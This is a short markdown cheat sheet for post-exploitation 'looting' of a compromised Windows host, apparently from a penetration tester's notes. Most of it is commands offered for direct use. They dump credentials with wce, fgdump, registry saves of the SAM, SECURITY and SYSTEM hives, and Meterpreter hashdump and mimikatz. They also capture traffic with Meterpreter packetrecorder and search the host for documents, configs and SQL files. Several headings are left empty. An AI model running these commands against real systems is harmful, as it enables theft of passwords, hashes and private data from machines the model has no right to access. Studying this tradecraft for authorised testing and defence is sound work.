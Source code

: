 
## Loot

- Flags:
- Password and hashes:
- Dualhomed:
- Tcpdump:
- Interesting files:
- Databases:
- SSH-keys:
- Browser:

### Passwords and hashes

```
wce32.exe -w
wce64.exe -w
fgdump.exe

reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Meterpreter
hashdump
load mimikatz
msv
```

### Dualhomed

```
ipconfig /all
route print

# What other machines have been connected
arp -a
```

### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```
